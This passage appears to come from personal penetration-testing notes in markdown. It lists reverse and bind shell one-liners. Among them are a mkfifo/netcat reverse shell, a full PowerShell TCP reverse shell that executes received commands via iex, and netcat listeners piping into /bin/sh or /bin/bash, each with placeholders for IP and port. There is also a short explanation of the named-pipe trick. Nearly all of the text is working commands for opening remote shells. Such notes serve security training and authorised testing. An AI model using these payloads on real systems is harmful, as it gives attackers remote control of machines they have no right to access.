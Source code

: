 >[!Success] Chebra, final form (more stable)
>```
>mkfifo /tmp/f; nc {local IP} {local port} < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
>```

​
The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at ==/tmp/f==. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into ==sh==, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
​
​
##### Modern Windows Systems

>[!Success] The Windows Case
>```
>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('{local IP}',{local port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
>```

​
​
### Bind Shells

#### Listener (Target Machine)

>[!Tip] Basics
>```
>nc -lvnp {port}
>```

​
>[!Danger] With Payload integrated
>```
>nc -lvnp {port} -e /bin/bash
>```

​
>[!Success] Chebra
>```
>mkfifo /tmp/f; nc -lvnp {port} < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
>```

​
​
#### Talker (Attacker Machine)

>[!Tip] Chebra
>```
>nc {target IP} {target port}
>```
